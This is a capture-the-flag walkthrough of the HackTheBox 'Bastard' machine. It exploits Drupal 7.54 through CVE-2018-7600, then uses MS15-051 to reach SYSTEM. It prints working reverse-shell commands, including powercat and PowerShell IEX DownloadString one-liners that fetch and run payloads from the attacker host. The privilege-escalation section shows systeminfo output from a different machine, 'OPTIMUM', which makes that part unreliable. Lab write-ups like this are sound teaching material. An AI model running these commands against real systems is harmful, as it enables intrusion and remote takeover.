


# HackTheBox Bastard

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.9 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 80,135,49154

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.9 -p80,135,49154
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 00:41 +07
Nmap scan report for 10.10.10.9
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

### Drupal Application



I enum web with `curl -I` command and `gobuster` to list hidden in the sevrer.

```
### Web Enumeration (80) ############################

[+] Header
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Length: 0
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
X-Powered-By: ASP.NET
Date: Sun, 04 Apr 2021 15:31:45 GMT
```

I enum at CHANGELOG.txt and get the Drupal version 7.54

```
┌──(Hades㉿10.10.14.5)-[0.3:39.4]~/payload/php
└─$ curl http://10.10.10.9/CHANGELOG.txt

Drupal 7.54, 2017-02-01
-----------------------
<snip>
```

I also using [droopescan](https://github.com/droope/droopescan) to scan Drupal

```
┌──(Hades㉿10.10.14.5)-[0.3:39.3]~/walkthrough/hackthebox/bastard
└─$ droopescan scan drupal -u 10.10.10.9
[+] Plugins found:                                                              
    <snip>

[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

[+] Scan finished (0:57:41.063650 elapsed)
```

Using `searchsploit` to find open exploit

```
┌──(Hades㉿10.10.14.5)-[0.3:44.7]~/walkthrough/hackthebox/bastard
└─$ searchsploit Drupal 7.54
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
<snip>
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalged | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalged | php/webapps/44448.py
<snip>
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

### CVE-2018-7600

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastard)

At exploit `php/webapps/44448.py`, I know that this is exploit for CVE-2018-7600, but Drupal 7.x have the vulberability at form `user_pass` and inject code in `name`. Find some exploit in google and I found [drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

Let's execute `drupa7-CVE-2018-7600.py` with powershell command to download and execute ps1 shell file.

Create powershell reverse shell with powercat.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/bastard
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

```
┌──(Hades㉿10.10.14.5)-[0.3:45.3]~/walkthrough/hackthebox/bastard
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 59994
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/bastard
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.3:45.0]~/walkthrough/hackthebox/bastard
└─$ python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "$cmd"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-73yATyI9zdwYMcsgDi-HaDUQOoYqlhiLL-ry_fEAw1M
[*] Triggering exploit to execute: powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')
```

## Privilege Escalation

### CVE-2015-1701

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastard)

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

Search around the internet, I found MS15-051 vulnerbility for this system. Download and execute file `MS15-051-KB3045171.zip` at [poc](https://github.com/leecybersec/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip).

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/ms15-051x64.exe','C:\inetpub\drupal-7.54\ms15-051x64.exe')"
```

```
C:\inetpub\drupal-7.54>ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1076 created.
==============================
```

Listener in kali machine

```
┌──(Hades㉿10.10.14.5)-[0.3:45.9]~/walkthrough/hackthebox/bastard
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 53968
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```